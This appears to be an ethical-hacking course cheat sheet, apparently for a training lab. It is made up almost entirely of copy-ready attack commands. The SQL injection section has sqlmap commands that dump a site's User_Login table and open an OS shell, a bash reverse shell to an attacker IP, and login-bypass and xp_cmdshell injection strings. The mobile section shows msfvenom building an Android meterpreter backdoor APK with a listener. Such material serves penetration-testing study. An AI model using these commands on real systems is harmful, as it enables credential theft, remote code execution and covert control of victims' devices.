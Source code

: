 	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope –tables - Extract Tables

	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login –columns - Extract Columns

	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login –dump - Dump Data

	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell - OS Shell to execute commands
	
	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell - OS Shell to execute commands
	> nc
	> bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
	>python3 -c 'import pty;pty.spawn("/bin/bash")'
	>CTRL+Z
	>stty raw -echo
	>fg
	>export TERM=xterm

¨ Other


	blah' or 1=1 -- - Login bypass

	blah';insert into login values ('john','apple123'); - Insert data into DB from login

	blah';create database mydatabase; - Create database from login

	blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- - Execute cmd from login
  
--------------------------------------------------------------------------  
Module 16 – Hacking Wireless Networks  
 
 ¨ Aircrack-ng
	aircrack-ng '/home/attacker/Desktop/Sample Captures/WEPcrack-01.cap'

--------------------------------------------------------------------------  
Module 17 – Hacking Mobile

¨ Metasploit – Binary payloads

	> service postgresql start 

	> msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.10.13 R > Desktop/Backdoor.apk - This command creates an APK backdoor on Desktop under the Root directory. 10.10.10.13 is the IP of Parrot. 

	> share the file

	> msfconsole

	> use exploit/multi/handler

	> set payload android/meterpreter/reverse_tcp and press Enter.

	> set LHOST 10.10.10.13 and press Enter.

	> Type show options to see if Listenning port is 4444.
